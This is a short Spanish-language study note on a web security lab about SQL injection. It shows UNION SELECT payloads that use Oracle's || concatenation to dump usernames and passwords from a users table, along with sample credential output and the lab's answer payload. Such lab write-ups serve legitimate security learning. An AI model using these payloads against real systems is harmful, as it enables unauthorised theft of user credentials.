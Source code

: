 # Recuperar múltiples valores dentro de una sola columna

Se puede recuperar valores juntos dentro de una unica columna concatendando los valores. Se puede incluir separadores para destingir los valores.
En oracle : 
' UNION SELECT username || '~' || password FROM users--
Esto utiliza la secuencia de doble tubo || que es un operador de concatenación de cadenas en Oracle. La consulta inyectada concatena los valores de la username y password campos, separados por el ~ caracter.
Ejemplo : ...
administrator~s3cure
wiener~peter
carlos~montoya
...

Diferentes bases de datos tienen diferente sintaxis para concatenar la cadena.

EN el lab hay : ' UNION SELECT NULL,'a'--
Entonces la respuesta es : ' UNION SELECT NULL,username ||'~'|| password FROM users--
